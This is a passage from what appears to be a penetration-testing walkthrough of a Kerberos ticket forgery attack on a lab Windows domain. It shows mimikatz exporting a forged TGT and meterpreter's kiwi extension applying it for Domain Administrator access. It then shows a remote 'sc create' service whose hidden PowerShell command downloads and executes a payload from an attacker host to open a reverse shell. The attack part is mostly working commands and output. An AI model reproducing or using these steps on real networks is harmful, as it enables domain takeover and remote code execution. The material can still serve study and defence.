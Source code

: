 fixme:lsa:LsaConnectUntrusted 0x42ba8c stub
fixme:lsa:LsaLookupAuthenticationPackage (nil) 0x42b67c 0x42ba84 stub
fixme:wlanapi:WlanOpenHandle (1, (nil), 0x30fdf8, 0x42bac8) stub

mimikatz(commandline) # kerberos::clist TGT_user01@metasploitable.local.ccache /export

Principal : (01) : Z ; @ Z

Data 0
       Start/End/MaxRenew: 10/12/2014 12:00:26 ; 10/12/2014 22:00:25 ; 17/12/2014 12:00:25
       Service Name (01) : Z ; Z ; @ Z
       Target Name  (01) : Z ; Z ; @ Z
       Client Name  (01) : Z ; @ Z
       Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ; 
       Session Key       : 0x00000017 - rc4_hmac_nt      
         09f49cffb2e13a13699fd40443a9fb88
       Ticket            : 0x00000000 - null              ; kvno = 2    [...]
       * Saved to file 0-50a00000-user01@krbtgt-METASPLOITABLE.LOCAL.kirbi !
mimikatz(commandline) # exit
Bye!
fixme:lsa:LsaDeregisterLogonProcess (nil) stub

Now we can load the Kiwi Mimikatz extension into meterpreter, install our ticket, and access resources as a Domain Administrator:

meterpreter > load kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.0 alpha (x86/win32) release "Kiwi en C"
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Ported to Metasploit by OJ Reeves `TheColonial` * * */

[!] Loaded x86 Kiwi on an x64 architecture.
success.
meterpreter > kerberos_ticket_use /root/git/pykek/0-50a00000-user01@krbtgt-METASPLOITABLE.LOCAL.kirbi
[*] Using Kerberos ticket stored in /root/git/pykek/0-50a00000-user01@krbtgt-METASPLOITABLE.LOCAL.kirbi, 1231 bytes
[+] Kerberos ticket applied successfully

We can then use create a service remotely, like PSEXEC to get a reverse shell:

meterpreter > shell
Process 1132 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32\WindowsPowerShell\v1.0>sc \\msfdc01\ create psh binPath= "cmd.exe /c powershell.exe -nop -w hidden -c IEX 
 ((new-object net.webclient).downloadstring('http://172.16.3.76:8080/moKqrqIYh0'))"
sc \\msfdc01\ create psh binPath= "cmd.exe /c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).
  downloadstring('http://172.16.3.76:8080/moKqrqIYh0'))"
[SC] CreateService SUCCESS
